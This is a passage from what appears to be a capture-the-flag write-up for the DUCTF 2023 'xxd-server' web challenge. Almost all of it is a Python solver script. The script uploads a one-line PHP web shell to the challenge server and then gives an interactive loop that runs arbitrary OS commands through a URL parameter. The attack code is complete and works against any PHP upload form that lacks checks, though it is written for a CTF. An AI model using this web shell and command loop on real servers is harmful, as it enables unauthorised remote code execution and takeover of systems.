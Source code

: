 **To automate stuff, I'll write a Python script:**
```python
#!/usr/bin/env python3
import requests
import io
from bs4 import BeautifulSoup

class Solver:
    def __init__(self, BASE_URL):
        self.BASE_URL = BASE_URL

    def uploadFile(self, files):
        fileUploadResponse = requests.post(self.BASE_URL, files=files)

        if fileUploadResponse.status_code != 200:
            print('[-] Fail to upload the file...')
            return

        soup = BeautifulSoup(fileUploadResponse.text, 'html.parser')
        uploadedFilePath = soup.a['href']

        print(f'[+] File uploaded! Path: /{uploadedFilePath}')
        return uploadedFilePath

    def readUploadedFile(self, uploadedFilePath, command):
        fullUploadedFilePath = self.BASE_URL + uploadedFilePath + f'?1={command}'
        uploadedFileResponse = requests.get(fullUploadedFilePath)
        
        if uploadedFileResponse.status_code != 200:
            print('[-] Failed to execute OS command...')
            return

        print(f'[+] Command executed!! Response:\n{uploadedFileResponse.text.strip()}')

if __name__ == '__main__':
    BASE_URL = 'https://web-xxd-server-2680de9c070f.2023.ductf.dev/'
    solver = Solver(BASE_URL)

    phpFilename = 'payload.php'
    phpPayload = '<?=`$_GET[1]`;'
    phpFileObject = io.BytesIO(phpPayload.encode())
    files = {
        'file-upload': ('payload.php', phpFileObject)
    }
    uploadedFilePath = solver.uploadFile(files)

    try:
        print('[*] Execute OS command in here... Type "exit" to quit:')
        while True:
            command = input('> ')
            if command == 'exit':
                print('[*] Bye!')
                break

            solver.readUploadedFile(uploadedFilePath, command)
    except KeyboardInterrupt:
        print('\n[*] Bye!')
```
